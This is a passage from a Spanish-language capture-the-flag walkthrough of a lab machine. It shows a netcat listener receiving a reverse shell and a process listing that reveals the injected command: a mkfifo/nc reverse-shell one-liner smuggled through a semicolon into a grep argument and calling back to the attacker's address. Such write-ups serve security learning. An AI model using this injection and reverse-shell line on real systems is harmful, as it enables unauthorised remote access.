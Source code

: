 Si mandamos el payload encodeado en base64 y miramos nuestro listener podemos ver que tenemos una revshell.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
10.10.10.105: inverse host lookup failed: Unknown host
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.105] 49750
/bin/sh: 0: can't access tty; job control turned off
#
```


### BGP Hijack

Si enumeramos la máquina podemos ver varias cosas, una curiosidad es que podemos ver nuestro comando inyectado:

```bash
root@r1:/# ps aux
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          1  0.0  0.2  37492  5796 ?        Ss   17:31   0:00 /sbin/init
root         54  0.0  0.1  35272  3528 ?        Ss   17:31   0:00 /lib/systemd/systemd-journald
root         62  0.0  0.1  41720  3128 ?        Ss   17:31   0:00 /lib/systemd/systemd-udevd
root        477  0.0  0.1  27728  2628 ?        Ss   17:31   0:00 /usr/sbin/cron -f
message+    478  0.0  0.1  42896  3504 ?        Ss   17:31   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root        479  0.0  0.0   5220   116 ?        Ss   17:31   0:00 /sbin/iscsid
root        480  0.0  0.1   5720  3540 ?        SLs  17:31   0:00 /sbin/iscsid
root        483  0.0  0.2 274488  5760 ?        Ssl  17:31   0:00 /usr/lib/accountsservice/accounts-daemon
root        484  0.0  0.1  28544  2964 ?        Ss   17:31   0:00 /lib/systemd/systemd-logind
root        490  0.0  0.2  65508  4788 ?        Ss   17:31   0:00 /usr/sbin/sshd -D
daemon      493  0.0  0.0  26044  2008 ?        Ss   17:31   0:00 /usr/sbin/atd -f
root        494  0.0  1.2 214096 24568 ?        Ssl  17:31   0:00 /usr/lib/snapd/snapd
root        517  0.0  0.0  14472  1800 console  Ss+  17:31   0:00 /sbin/agetty --noclear --keep-baud console 115200 38400 9600 linux
root        528  0.0  0.2 277176  5780 ?        Ssl  17:31   0:00 /usr/lib/policykit-1/polkitd --no-debug
quagga     1100  0.0  0.0  24500   608 ?        Ss   18:10   0:00 /usr/lib/quagga/zebra --daemon -A 127.0.0.1
quagga     1104  0.0  0.1  29444  3804 ?        Ss   18:10   0:00 /usr/lib/quagga/bgpd --daemon -A 127.0.0.1
root       1109  0.0  0.0  15432   168 ?        Ss   18:10   0:00 /usr/lib/quagga/watchquagga --daemon zebra bgpd
root       1112  0.0  0.2  36696  4204 ?        Ss   18:11   0:00 /lib/systemd/systemd --user
root       1113  0.0  0.0  60944  1632 ?        S    18:11   0:00 (sd-pam)
root       1284  0.0  0.3  92796  6924 ?        Ss   18:16   0:00 sshd: root@notty
root       1314  0.0  0.1  11236  3088 ?        Ss   18:16   0:00 bash -c ps waux | grep ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 443 >/tmp/f # | grep -v grep
root       1319  0.0  0.0   6164   684 ?        S    18:16   0:00 cat /tmp/f
root       1320  0.0  0.0   4504   780 ?        S    18:16   0:00 /bin/sh -i
root       1321  0.0  0.0  11300  1652 ?        R    18:16   0:00 nc 10.10.16.6 443
root       1322  0.0  0.1  20760  2516 ?        S    18:16   0:00 script -c bash /dev/null
root       1323  0.0  0.1  19904  3768 pts/0    Ss   18:16   0:00 bash
root       1351  0.0  0.1  36084  3312 pts/0    R+   18:19   0:00 ps aux
```

